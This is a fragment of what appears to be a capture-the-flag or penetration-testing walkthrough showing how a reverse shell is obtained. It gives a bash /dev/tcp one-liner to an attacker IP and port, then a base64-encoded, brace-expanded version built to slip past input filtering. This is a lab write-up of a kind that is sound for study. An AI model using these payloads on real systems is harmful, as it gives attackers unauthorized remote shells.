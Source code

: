 ![](./IMG/17.png)
- The nc listener will get connection.
#### Another way to get shell
- Shell command 
```
bash -i >& /dev/tcp/10.10.16.27/1337 0>&1
```
- Using base64 to encode the shell command  

![](./IMG/18.png)
- Change the payload to following
```
bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yNy8xMzM3IDA+JjE=}|{base64,-d}|{bash,-i}
```